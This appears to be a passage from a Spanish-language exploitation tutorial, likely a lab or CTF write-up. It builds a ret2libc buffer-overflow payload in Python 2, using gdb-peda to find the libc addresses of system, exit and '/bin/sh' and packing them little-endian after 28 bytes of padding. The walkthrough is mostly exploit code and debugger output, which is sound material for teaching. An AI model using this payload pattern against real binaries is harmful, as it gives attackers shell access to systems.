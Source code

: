 ```python
#!/usr/bin/python2

offset = 28

junk = b"A" * offset
```

Bueno como va a hacer un reb2libc tenemos que saber las direcciones de system y exit de la funcion `libc`

Direccion de system

```shell
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e03000 <system>
gdb-peda$ 
```

Direccion de exit

```shell
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7df5950 <exit>
gdb-peda$ 
```

Ahora tenemos que saber la direccion de `/bin/sh` de libc dentro de `gdb`

```shell
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f4a338 ("/bin/sh")
gdb-peda$
```

Estamos en little endian entoncces tenemos que darle la vuelta a todas las direcciones

```shell
0xf7e03000  |  \xf7\xe0\x30\x00   |   \x00\x30\xe0\xf7

0xf7df5950  |  \xf7\xdf\x59\x50   |   \x50\x59\xdf\xf7

0xf7f4a338  |  \xf7\xf4\xa3\x38   |   \x38\xa3\xf4\xf7
```

Ahora vamos a agregar las direcciones a nuestro script


```python
#!/usr/bin/python2

offset = 28

junk = b"A" * offset

addr_system = b"\x00\x30\xe0\xf7"
addr_exit = b"\x50\x59\xdf\xf7"
addr_bin_sh = b"\x38\xa3\xf4\xf7" # aqui es donde llamamos a /bin/bash para que nos de una shell

print(junk + addr_system + addr_exit + addr_bin_sh)
```
